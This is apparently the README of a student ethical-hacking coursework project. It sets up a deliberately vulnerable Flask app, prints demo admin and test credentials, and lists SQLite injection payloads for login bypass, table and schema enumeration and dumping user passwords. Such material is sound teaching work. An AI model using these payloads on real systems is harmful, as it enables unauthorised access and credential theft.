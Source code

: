 # F20AN-CW1  

### SQL Injection Project – Ethical Hacking Coursework  

This project demonstrates SQL injection vulnerabilities as part of an ethical hacking course.  

## Contributors  
- Aryan R  
- Patson D  
- Abdirahim W

## Setup & Execution  

1. **Install Dependencies**  
   Ensure you have a Python environment set up, then install the required dependencies:  
   ```bash
   pip install -r requirements.txt 
   ```

2. **Set Up the Database**  
Navigate to the 'flask app' directory and run:
    ```bash
   python setupDatabase.py
   ```
   The following output should be generated during its first execution:
   ```bash
    Users added
    Admin user and test user created.

    admin creds: 
            u:patson
            p:dubai2020!
    test user creds: 
            u:sharafdg
            p:passsw0rd!
                      
    Stock items added.

    Database setup complete.
   ```
   This initializes the SQL database.

3. **Run the Application**  
Start the Flask app: 
    ```bash
    python myApp.py
    ```
    Then, open your browser and go to:  
    http://127.0.0.1:5000/

4. **Example Exploits (for SQLite):**

   - **Bypass login with comment (login page)**
     ```
     admin'-- 
     ```

   - **Bypass login with OR (login page)**
     ```
     admin' OR '1' = '1
     ```

   - **Check if injection is possible (stock page)**
     ```
     ' UNION SELECT 1,2,3,4,5; --
     ```

   - **Get SQLite version (stock page)**
     ```
     ' UNION SELECT sqlite_version(),2,3,4,5; --
     ```

   - **Show tables (stock page)**
     ```
     ' UNION SELECT name, type, 3,4,5 FROM sqlite_master; --
     ```

   - **Show SQL query with table info (stock page)**
     ```
     ' UNION SELECT sql, 2,3,4,5 FROM sqlite_master WHERE type='table' AND name='users'; --
     ```

   - **Dump all users (stock page)**
     ```
     %' UNION SELECT username, password, 1, 2, 3 FROM users; --
     ```

   - **List all tables and SQL schema (stock page)**
     ```
     ' UNION SELECT type, name, tbl_name, rootpage, sql FROM sqlite_master; --
     ```

---
This project is intended for the f20an coursework.